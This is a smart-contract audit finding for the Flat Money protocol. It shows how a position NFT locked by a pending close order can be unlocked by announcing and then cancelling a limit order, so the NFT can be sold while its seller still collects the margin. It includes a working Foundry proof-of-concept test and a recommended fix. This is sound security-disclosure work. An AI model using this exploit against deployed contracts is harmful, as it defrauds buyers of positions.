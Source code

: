 Exotic Goldenrod Duck

high

# User can unlock announce-locked NFT token by cancelling limit order

## Summary
User can unlock announce-locked position NFT token by cancelling limit order.

## Vulnerability Detail
When user calls [announceLeverageAdjust(...)](https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/DelayedOrder.sol#L217-L223) function or [announceLeverageClose(...)](https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/DelayedOrder.sol#L317) function to create order to adjust/close a position, the position NFT token is [locked](https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/DelayedOrder.sol#L361) to ensure it can't be transferred to someone else,  and the token can only be [unlocked](https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LeverageModule.sol#L307) when the order is executed.

However, a malicious user can bypass this limitation by announcing a limit and then cancelling it.  As we can see a position NFT token is locked in [announceLimitOrder(...)](https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LimitOrder.sol#L58) function:
```solidity
        // Lock the NFT belonging to this position so that it can't be transferred to someone else.
        ILeverageModule(vault.moduleAddress(FlatcoinModuleKeys._LEVERAGE_MODULE_KEY)).lock(tokenId);
```
And the token is unlocked in [cancelLimitOrder(...)](https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LimitOrder.sol#L87) function, this function can be called at anytime by the token owner:
```solidity
        // Unlock the ERC721 position NFT to allow for transfers.
        ILeverageModule(vault.moduleAddress(FlatcoinModuleKeys._LEVERAGE_MODULE_KEY)).unlock(tokenId);
```
The problem is when creates a limit order, **announceLimitOrder** function does not check if the position NFT token is announced in [DelayedOrder](https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/DelayedOrder.sol), so user can unlock a announced-locked token.

Consider the following scenario:
1. Alice wants to buy a leverage position from Bob;
2. Before transferring the position NFT token to Alice, Bob announces a leverage close order, token is locked;
3. Then Bob creates a limit order and cancels it immediately, token is unlocked;
4. Bob transferres the token to Alice;
5. After a mimimum delay, Bob executes the close order, the token is burned and margin is sent to Bob, Alice suffers a loss

Please see the test codes:
```solidity
    function test_audit_unlock_token() public {
        announceAndExecuteDeposit({
            traderAccount: alice, 
            keeperAccount: keeper, 
            depositAmount: 100e18, 
            oraclePrice: 1000e8, 
            keeperFeeAmount: 0
        });

        // Bob opens a position
        uint256 tokenId = announceAndExecuteLeverageOpen({
            traderAccount: bob, 
            keeperAccount: keeper, 
            margin: 50e18, 
            additionalSize: 100e18, 
            oraclePrice: 1000e8, 
            keeperFeeAmount: 0
        });
        assertEq(leverageModProxy.ownerOf(tokenId), bob);

        uint256 bobBalanceAfterLeverageOpen = WETH.balanceOf(bob);
        uint256 aliceBalanceAfterLeverageOpen = WETH.balanceOf(alice);

        // Bob announces to close the position
        announceCloseLeverage({
            traderAccount: bob, 
            tokenId: tokenId, 
            keeperFeeAmount: 0
        });

        // position token is locked
        assertTrue(leverageModProxy.isLocked(tokenId));

        // Bob places a limit order and cancels it 
        vm.startPrank(bob);
        uint256 liqPrice = liquidationModProxy.liquidationPrice(tokenId);
        limitOrderProxy.announceLimitOrder({
            tokenId: tokenId,
            priceLowerThreshold: 0,
            priceUpperThreshold: 1
        });
        limitOrderProxy.cancelLimitOrder(tokenId);
        vm.stopPrank();

        // position token is unlocked
        assertFalse(leverageModProxy.isLocked(tokenId));

        // Bob transfers (sell) position token to Alice
        vm.prank(bob);
        leverageModProxy.transferFrom(bob, alice, tokenId);
        assertEq(leverageModProxy.ownerOf(tokenId), alice);

        skip(uint256(vaultProxy.minExecutabilityAge()));

        // position is closed and token is burned
        vm.startPrank(keeper);
        uint256 collateralPrice = 1000e8;
        bytes[] memory priceUpdateData = getPriceUpdateData(collateralPrice);
        delayedOrderProxy.executeOrder{value: 1}(bob, priceUpdateData);
        vm.stopPrank();

        uint256 bobBalanceAfterLeverageClose = WETH.balanceOf(bob);
        uint256 aliceBalanceAfterLeverageClose = WETH.balanceOf(alice);

        // Collaterals are sent to Bob instead of Alice
        assertTrue(bobBalanceAfterLeverageClose > bobBalanceAfterLeverageOpen);
        assertTrue(aliceBalanceAfterLeverageClose == aliceBalanceAfterLeverageOpen);
    }
```

## Impact
Position NFT token can be unlocked when an delay order is announced but not executed, a malicious user can exploit this and cause loss to the honest user.

## Code Snippet
https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LimitOrder.sol#L58

## Tool used
Manual Review

## Recommendation
When creates a limit order, protocol should check if the position NFT token is locked and revert if so. 